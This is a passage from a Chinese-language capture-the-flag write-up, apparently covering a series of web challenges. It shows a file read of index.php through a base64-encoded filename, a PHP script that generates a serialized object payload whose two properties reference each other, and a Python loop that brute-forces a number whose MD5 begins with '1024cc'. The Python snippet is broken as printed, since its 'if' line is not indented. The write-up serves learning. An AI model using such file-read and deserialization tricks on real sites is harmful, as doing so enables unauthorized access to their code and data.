 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01f7a62e59323b11b8.png)

尝试读取源码 index.php，构造 TmprMlpUWTBOalUzT0RKbE56QTJPRGN3，得到 index.php 源码，发现 magicword.txt 存在

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01ffc8f978c35dd351.png)

**套娃三：** 纯纯的反序列化

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01f19c5dd58a59afa6.png)

构造脚本生成 payload

```
&lt;?php 
class icanhear `{` 
    var $mykey; 
    var $myword; 
    function icanhear() 
    `{` 
    $this-&gt;mykey=&amp;$this-&gt;myword; 
    `}` 
    `}` 
echo serialize(new icanhear()); //O:8:"icanhear":2:`{`s:5:"mykey";N;s:6:"myword";R:2;`}` 
?&gt;
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0102b6bb183dce2859.png)

**套娃四：**

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01e1e88cfc2e8d15a6.png)

需要爆破 md5 前 6 位是 1024cc 的数字

构造 python 脚本

```
from hashlib import md5 
for i in range(100000000): 
if md5(str(i)).hexdigest()[:6]=='1024cc': 
  print (i) 
  break
```

得到 flag2 是 790058

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0197b2259cfbebd697.png)
